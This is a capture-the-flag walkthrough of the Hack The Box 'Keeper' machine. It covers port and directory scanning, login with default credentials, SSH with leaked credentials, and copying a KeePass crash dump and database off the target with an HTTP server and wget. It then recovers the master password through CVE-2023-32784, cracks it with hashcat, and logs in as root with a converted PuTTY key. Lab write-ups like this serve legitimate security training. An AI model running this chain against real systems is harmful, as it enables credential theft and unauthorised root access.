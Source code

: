 # Hack The Box : Keeper
## Difficulty : Easy
## OS : Linux

## Enumeration:

I'll start with a port scan.

```bash
nmap -sC -sV -p- -oN outputNMAP.txt 10.129.229.41
```

![NmapScan](img1.png)

I'll take a look at the web server on port 80.

![Site](img2.png)

Looks like we need to add the subdomain to our "/etc/hosts" file.

![SiteL](img3.png)

Using gobuster we find a directory that takes us to another login page.

```bash
gobuster dir -u http://tickets.keeper.htb/rt/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -b 404,302
```

![GoBu](img4.png)

![Login2](img6.png)

We can use default credentials to logi in.

```markdown
root:password
```

## Foothold:

![In](img5.png)

Looking arount the web site we find a user and his password.

![User](img7.png)

We can use those credentials to login via ssh to the target.

```bash
ssh lnorgaard@keeper.htb 
Welcome2023!
```

![SSH](img8.png)

We can get the user flag.

```bash
ls
cat user.txt
```

## We got the user flag!

## Privilege Escalation

We find an email in "/var/email" that reads:

```markdown
Lise,

Attached to this ticket is a crash dump of the keepass program. Do I need to
update the version of the program first...?

Thanks! 

------------=_1684924638-1803-2
Content-Type: text/html; charset="utf-8"
X-RT-Original-Encoding: utf-8

<b>Wed May 24 12:37:18 2023: Request <a href="http://keeper.htb/rt/Ticket/Display.html?id=300000">300000</a> was acted upon by root.</b>
<br>
<table border="0">
<tr><td align="right"><b>Transaction:</b></td><td>Ticket created by root</td></tr>
<tr><td align="right"><b>Queue:</b></td><td>General</td></tr>
<tr><td align="right"><b>Subject:</b></td><td>Issue with Keepass Client on Windows </td></tr>
<tr><td align="right"><b>Owner:</b></td><td>lnorgaard</td></tr>
<tr><td align="right"><b>Requestors:</b></td><td>webmaster@keeper.htb</td></tr>
<tr><td align="right"><b>Status:</b></td><td>new</td></tr>
<tr><td align="right"><b>Ticket URL:</b></td><td><a href="http://keeper.htb/rt/Ticket/Display.html?id=300000">http://keeper.htb/rt/Ticket/Display.html?id=300000</a></td></tr>
</table>
<br/>
<br/>
Lise,<br>
<br>
Attached to this ticket is a crash dump of the keepass program. Do I need to update the version of the program first...?<br>
<br>
Thanks! 
```

In the user directory I found a zip called RT30000.zip. After unziping it I got 2 files:

```bash
KeePassDumpFull.dmp  
passcodes.kdbx
```
I'll transfer them to my machine.

Target:
```bash
python3 -m http.server 9999
```

Host:
```bash
wget http://0.0.0.0:9999/KeePassDumpFull.dmp  
wget http://0.0.0.0:9999/passcodes.kdbx
``` 

Using the following https://github.com/CTM1/CVE-2023-32784-keepass-linux and the powershell built in kali I managed to extract this :

![ps](img9.png)

Searching on the web we get the full name of the dish : rødgrød med fløde .

We can get the hash of the password from "passcodes.kdbx".

```bash
keepass2john passcodes.kdbx > keepasshash
cut -d ":" keepasshash -f 2 > hash_only
```

Now that we have a partial password and the hash I'll try to crack it.


```bash
hashcat -m 13400 hash_only -a 3 "rødgrød med fløde" -O
```

![hash](img10.png)


Looks like we got our password.

```markdwon
rødgrød med fløde
```

We can use this password to decode the passcodes.kdbx file via keepassxc.

```bash
sudo keepassxc
```

![pu](img11.png)

We can make the PuTTy user key into an id_rsa key and login as root.

```bash
#Put the contents of note in a file
puttygen pu.ppk -O private-openssh -o id-rsa
ssh root@keeper.htb -i id-rsa
```
![root](img12.png)

It worked.

We can get the root.flag

```bash
cat /root/root.txt
```

## We got the root flag!
